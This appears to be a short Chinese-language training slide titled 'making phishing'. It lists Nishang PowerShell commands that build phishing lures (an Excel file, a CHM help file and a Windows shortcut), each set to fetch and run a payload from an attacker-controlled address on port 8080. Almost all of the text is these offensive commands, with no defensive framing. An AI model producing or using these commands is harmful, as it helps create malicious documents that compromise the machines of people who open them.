

# 制作钓鱼
使用Out-Excel.ps1制作excel钓鱼文件:
PS D:\temp> . .\Out-Excel.ps1
PS D:\temp> Out-Excel -PayloadURL http://192.168.0.199:8080/ -OutputFile  D:\test.xls
制作chm钓鱼文件
Out-CHM -PayloadURL http://192.168.3.143:8080/ -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
制作快捷方式钓鱼文件
PS D:\temp> . .\Out-Shortcut.ps1
PS D:\temp> Out-Shortcut -PayloadURL http://192.168.3.143:8080/ -HotKey 'F3' -Icon 'notepad.exe'

nishang插件